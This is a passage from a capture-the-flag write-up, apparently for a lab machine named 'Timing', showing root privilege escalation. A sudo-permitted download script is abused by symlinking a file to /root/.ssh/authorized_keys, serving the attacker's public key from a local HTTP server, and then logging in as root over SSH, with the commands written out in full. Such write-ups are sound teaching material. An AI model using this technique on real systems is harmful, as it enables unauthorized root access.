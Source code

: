 ![user.txt](/assets/img/posts/timing/22.png)

### Root

Now it's time to escalate our privileges to root. Before going to linpeas, we check our sudo rights. We find a bash script "/usr/bin/netutils" that we can run as root. That script is using ftp or http service to download file to aaron's home directory.

```bash
sudo -l
file /usr/bin/netutils
cat /usr/bin/netutils
sudo /usr/bin/netutils
```

![sudo_l](/assets/img/posts/timing/23.png)

We create a file named "mykeys" with a symbolic link to "/root/.ssh/authorized_keys" and on our local machine we copy id_rsa.pub to new file named "mykeys". Then we run the bash script "netutils" to download "mykeys" file from our local machine which it overwrites the "mykeys" file that resides at arron's home directory and consequently it overwrites "/root/.ssh/authorized_keys" because of the symbolic link permission. After that we try to login to ssh as root by the private key "id_rsa" and it works. As well as, we got the root flag.

```bash
# On timing machine
ln -s /root/.ssh/authorized_keys mykeys
ls -l

# On local machine
cd ~/.ssh
cp id_rsa.pub mykeys
python3 -m http.server 80

# On timing machine
sudo /usr/bin/netutils
1
10.10.16.21/mykeys
2

# On local machine
ssh root@10.10.11.135 -i /root/.ssh/id_rsa
ls
cat root.txt
```

![root.txt](/assets/img/posts/timing/24.png)
